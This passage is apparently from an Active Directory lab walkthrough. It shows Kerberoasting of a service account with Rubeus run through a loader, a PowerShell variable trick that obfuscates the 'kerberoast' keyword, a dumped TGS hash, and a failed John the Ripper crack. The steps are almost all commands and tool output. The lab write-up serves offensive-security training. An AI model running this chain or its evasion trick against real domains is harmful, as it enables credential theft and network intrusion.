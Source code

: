 ```
lastlogon             : 2/5/2022 11:48:16 PM
badpwdcount           : 0
cn                    : sqlserver sync
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-1325336202-3661212667-302732393-1111
primarygroupid        : 513
pwdlastset            : 2/5/2022 6:16:18 AM
name                  : sqlserver sync

[SNIP]
```

```powershell
$z="t";$y="s";$x="a";$w="o";$v="r";$u="e";$t="b";$s="r";$r="e";$q="k";$Pwn="$q$r$s$t$u$v$w$x$y$z"
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args $Pwn /user:sqlserversync /simple /rc4opsec /format:john /outfile:C:\AD\Tools\krb5tgs_hashes.txt`:
```
[*] Action: Kerberoasting📌

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : sqlserversync👤
[*] Target Domain          : tech.finance.corp
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
[*] Searching path 'LDAP://tech-dc.tech.finance.corp/DC=tech,DC=finance,DC=corp' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=sqlserversync)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\krb5tgs_hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\krb5tgs_hashes.txt📌
```

![studvm | studentuser $>](https://custom-icon-badges.demolab.com/badge/studvm-studentuser%20[%24>]-64b5f6?logo=windows11&logoColor=white)

`type C:\AD\Tools\krb5tgs_hashes.txt`:
```
$krb5tgs$23$*sqlserversync$tech.finance.corp$MSSQLSvc/dbserver31.tech.finance.corp*$E149345BAB64831EC028269E3F223675$8227DBD5D1EF86C63D7C612E2060BFC72EF3423713033D0BD5C9C7FD24423C892EB59E25B861E0E270726C87819C9CA6267962C1BD84793F8E72820D9C5017475A08

[SNIP]
```

![kali | attacker $>](https://custom-icon-badges.demolab.com/badge/kali-attacker%20[%24>]-e57373?logo=kali-linux_white_32&logoColor=white)

`john --format=krb5tgs --wordlist=./10k-worst-pass.txt ./krb5tgs_hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2025-03-11 08:42) 0g/s 1000Kp/s 1000Kc/s 1000KC/s fffff1..eyphed
Session completed. 
```
❌
